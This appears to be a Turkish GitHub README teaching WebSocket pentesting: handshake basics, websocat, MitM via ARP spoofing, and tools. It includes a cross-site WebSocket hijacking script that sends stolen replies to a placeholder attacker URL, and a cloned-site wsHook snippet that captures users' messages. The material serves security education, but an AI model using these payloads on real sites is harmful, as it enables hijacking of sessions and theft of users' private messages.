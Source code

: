 # WebSockets Nedir?

WebSockets, genellikle uzun ömürlü olan ve tipik olarak HTTP üzerinden başlatılan bağlantılardır. İletişim her iki yönde de herhangi bir zamanda gerçekleşebilir ve genellikle bağlantı, istemci veya sunucunun bir mesaj göndermeye hazır olduğu ana kadar açık ve boşta kalır. WebSockets, düşük gecikme veya sunucu başlatmalı mesajlar gibi durumlarda kullanışlıdır, örneğin finansal verilerin gerçek zamanlı akışları.

## Neler öğreneceğiz?

- WebSockets Nedir?
- WebSockets Bağlantısı Nasıl Kurulur?
- Linux Konsolu ile WebSocket Bağlantısı Kurma
- WebSocket Bağlantılarını Man-in-the-Middle (MitM) Yapma
- WebSocket Enumerasyonu ve Güvenlik Analizi
- WebSockets Hata Ayıklama Araçları ve İpuçları
- Cross-site WebSocket Hijacking (CSWSH) Tehdidi ve Savunma
- Kullanıcıdan Veri Çalmak İçin WebSocket Saldırıları


## WebSockets Bağlantısı Nasıl Kurulur?

WebSockets bağlantıları genellikle şu şekilde, istemci tarafında JavaScript kullanılarak oluşturulur:

```javascript
var ws = new WebSocket("wss://normal-website.com/ws");
```

"**wss**" protokolü, şifreli bir TLS bağlantısı üzerinden WebSocket'i kurar; "**ws**" protokolü ise şifrelenmemiş bir bağlantı kullanır. Bağlantıyı kurmak için tarayıcı ve sunucu, bir HTTP üzerinden WebSocket el sıkışması gerçekleştirir. Tarayıcı, şu şekilde bir WebSocket el sıkışması isteği gönderir:

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

Eğer sunucu bağlantıyı kabul ederse, şu şekilde bir WebSocket el sıkışması yanıtı döner:

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```

Bu noktadan sonra ağ bağlantısı açık kalır ve her iki yönde WebSocket mesajları göndermek için kullanılabilir.

## Notlar
WebSocket el sıkışması mesajlarının bazı özellikleri şunlardır:
- İstek ve yanıtın **Connection** ve **Upgrade** başlıkları, bu el sıkışmasının bir WebSocket el sıkışması olduğunu belirtir.
- **Sec-WebSocket-Version** istek başlığı, istemcinin kullanmak istediği WebSocket protokol sürümünü belirtir. Genellikle 13'tür.
- **Sec-WebSocket-Key** istek başlığı, Base64 ile kodlanmış rasgele bir değeri içerir. Bu değer, her el sıkışma isteğinde rasgele olarak oluşturulmalıdır.
- **Sec-WebSocket-Accept** yanıt başlığı, **Sec-WebSocket-Key** istek başlığındaki değerin, protokol spesifikasyonunda tanımlı belirli bir dize ile birleştirilmiş bir karma değeridir. Bu, yanıltıcı yanıtları önlemek için yapılır.
- **Sec-WebSocket-Key** başlığı, önbellek proxy'lerinden kaynaklanan hataları önlemek için kullanılır ve kimlik doğrulama veya oturum yönetimi amacıyla kullanılmaz (Bir CSRF belirteci değildir).

## WebSockets Bağlantısı (Linux)

websocat kullanarak bir WebSocket ile doğrudan bağlantı kurabilirsiniz:

```bash
websocat --insecure wss://10.10.10.10:8000 -v
```

Veya bir websocat sunucusu oluşturmak için:

```bash
websocat -s 0.0.0.0:8000 # Port 8000'de dinle
```

## WebSocket Bağlantılarında Man-in-the-Middle (MitM) Saldırısı

Eğer istemcilerin mevcut yerel ağınızdan bir HTTP WebSocket'ine bağlandığını fark ederseniz, bir ARP Spoofing Saldırısı kullanarak bir MitM saldırısı yapabilirsiniz. İstemci bağlanmaya çalıştığında şunları kullanabilirsiniz:

```bash
websocat -E --insecure --text ws-listen:0.0.0.0:8000 wss://10.10.10.10:8000 -v
```

## WebSocket Enumerasyonu

[STEWS](https://github.com/PalindromeLabs/STEWS) aracını kullanarak WebSocket'leri otomatik olarak keşfetmek, parmak izlemek ve bilinen güvenlik açıklarını aramak için kullanabilirsiniz.

## WebSocket Hata Ayıklama Araçları

[Burp Suite](https://portswigger.net/burp) web soket iletişimini normal HTTP iletişiminde olduğu gibi MitM destekler.

[Socketsleuth](https://github.com/summitt/Burp-Suite-SocketSleuth) Burp Suite uzantısı, Websocket iletişimlerini daha iyi yönetmenizi sağlar. Geçmişi alabilir, interception kuralları belirleyebilir, eşleştirme ve değiştirme kurallarını kullanabilir, Intruder ve AutoRepeater kullanabilirsiniz.

[WSSiP](https://github.com/PentesterES/WSSiP) (WebSocket/Socket.io Proxy) adlı bu Node.js aracı, istemci ve sunucu arasındaki tüm WebSocket ve Socket.IO iletişimlerini yakalamak, durdurmak, özel mesajlar göndermek ve görüntülemek için bir kullanıcı arayüzü sağlar.

[wsrepl](https://github.com/hypoweb/wsrepl) interaktif bir WebSocket REPL'dir ve özellikle penetrasyon testi için tasarlanmıştır. Gelen WebSocket mesajlarını gözlemlemek ve yeni mesajlar göndermek için bir arayüz sağlar, bu iletişimi otomatikleştirmek için kullanımı kolay bir çerçeve sunar.

[WebSocketKing](https://websocketking.com/) bir web aracıdır ve web soketleri kullanarak diğer web siteleriyle iletişim kurmanıza olanak tanır.

[Hoppscotch](https://hoppscotch.io/realtime/websocket) WebSocket ve diğer iletişim/protokoller için bir web aracı sağlar.

## Cross-site WebSocket Hijacking (CSWSH)

Ayrıca "**cross-origin WebSocket hijacking**" veya "**cross-origin WebSocket hijacking**" olarak da bilinen bu saldırı, WebSocket el sıkışmasında Cross-Site Request Forgery (CSRF) kullanır. Bu, WebSocket el sıkışma isteğinin yalnızca HTTP çerezlerine güvenmesi ve CSRF belirteçleri veya diğer tahmin edilemez değerleri içermemesi durumunda ortaya çıkar.

### Basit Saldırı

Unutmayın ki bir WebSocket bağlantısı kurulduğunda cookie sunucuya gönderilir. Sunucu, örneğin bir mesajla "READY" ifadesi gönderildiğinde kullanıcıya ait bir konuşma geçmişini geri gönderiyorsa, basit bir XSS bağlantısı kurarak (cookie otomatik olarak gönderilecektir) "READY" mesajını göndererek konuşma geçmişini çalabilirsiniz:

```javascript
<script>
websocket = new WebSocket('wss://websoket-urlsi')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
  websocket.send("READY"); // Gizli bilgileri almak için mesaj gönder
}

function handleReply(event) {
  // Gizli bilgileri saldırganın sunucusuna gönder
  fetch('https://kendi-makine-urlniz/?'+event.data, {mode: 'no-cors'})
}
</script>
```

## Kullanıcıdan Veri Çalmak

Hedeflenen web uygulamasını taklit etmek için (.html dosyaları gibi) siteyi kopyalayın ve WebSocket iletişiminin gerçekleştiği script içine aşağıdaki kodu ekleyin:

```javascript
<script src='wsHook.js'></script>

//Bu, bir mesaj gönderilmeden önce veya sunucudan alındıktan sonra çalışacak işlevlerdir
//Bu kod, bir <script> etiketi arasında veya bir .js dosyasının içinde olmalıdır
wsHook.before = function(data, url) {
    var xhttp = new XMLHttpRequest();
    xhttp.open("GET", "client_msg?m="+data, true);
    xhttp.send();
}
wsHook.after = function(messageEvent, url, wsObject) {
    var xhttp = new XMLHttpRequest();
    xhttp.open("GET", "server_msg?m="+messageEvent.data, true);
    xhttp.send();
    return messageEvent;
}
```

Şimdi [wsHook.js](https://github.com/skepticfx/wshook) dosyasını indirin ve web dosyalarının bulunduğu klasörün içine kaydedin.
Web uygulamasını açığa çıkararak ve bir kullanıcının ona bağlanmasını sağlayarak websocket aracılığıyla gönderilen ve alınan mesajları çalabileceksiniz:
```bash
sudo python3 -m http.server 80
```

# Yasal Uyarı!
Bu GitHub deposu, WebSocket teknolojisi üzerinde yapılan saldırılarla ilgili bilgiler içermektedir. Bu bilgiler, siber güvenlik alanındaki profesyoneller ve etik hackerlar için eğitim amaçlı sağlanmaktadır.

**Dikkat:** Bu depo içinde bulunan bilgiler, yalnızca eğitim amaçlıdır ve kötü niyetli kullanım amacı taşımaz. WebSocket saldırıları gerçekleştirilirken yasal düzenlemelere, etik kurallara ve hedef sistemlere izin almadan müdahale etmek yasa dışıdır. Bu depo tarafından sağlanan bilgilerin kötü niyetli kullanımı, yasalar gereğince cezalandırılabilir.
